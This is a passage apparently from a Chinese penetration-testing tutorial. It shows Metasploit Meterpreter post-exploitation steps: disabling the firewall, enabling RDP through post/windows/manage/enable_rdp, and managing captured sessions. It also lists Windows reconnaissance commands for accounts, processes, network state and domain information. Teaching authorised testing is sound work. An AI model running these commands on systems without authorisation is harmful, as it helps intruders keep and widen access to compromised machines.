 关闭防火墙

```plain
meterpreter >  run post/windows/manage/enable_rdp
```

[![](assets/1701827767-769d05bf4fd346c15731147532a0bfb8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205085031-4a4c6d66-9308-1.png)

```plain
1. sessions -i
2. #查看已经获取的会话
3. sessions -i 1
4. #连接到指定序号的 meterpreter 会话已继续利用
```

[![](assets/1701827767-7c3cac263078b7374382892b027b8077.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191306-c4659dfe-9103-1.png)

## 信息搜集：

### 基础信息搜集：

如遇 shell 乱码问题可输入`chcp 65001`缓解部分问题

```plain
输入 ashelp 查看本地命令
net user 查看本地账户
whoami 当前用户权限
ipconfig -all Windows IP 配置
systeminfo  #信息
tasklist #查询进程及服务
ipconfig /all #.域信息
netstat -an #查看端口状态
net view
net view /domain #查看当前登录域与用户信息
```
